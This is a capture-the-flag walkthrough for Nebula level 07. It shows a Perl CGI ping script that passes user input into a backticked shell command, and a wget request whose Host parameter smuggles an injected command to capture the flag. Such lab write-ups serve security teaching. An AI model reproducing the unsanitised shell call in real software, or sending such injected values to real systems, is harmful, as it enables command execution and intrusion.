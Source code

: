 # Guide to Nebula Level 07


## Level Info
The **flag07** user was writing their very first perl program that allowed them to ping hosts to see if they were reachable from the web server.

To do this level, log in as the **level07** account with the password **level07**. Files for this level can be found in /home/flag07.


## Solution
This level was a example of command injection. The vulnurable Perl code was
```perl
use CGI qw{param};

# snip
    $host = $_[0];
# snip
    @output = `ping -c 3 $host 2>&1`;
# snip
```
The user input was passwed to the shell command without checking and thus anybody can embed shell commands in the argument and get a successful command execution via the binary. We can get the flag by injecting shell command like this
```bash
wget "127.0.0.1:7007/index.cgi?Host=\`getflag > /tmp/got_flag\`"
```
Upon successful execution, we can cat the `/tmp/got_flag` file to confirm the flag
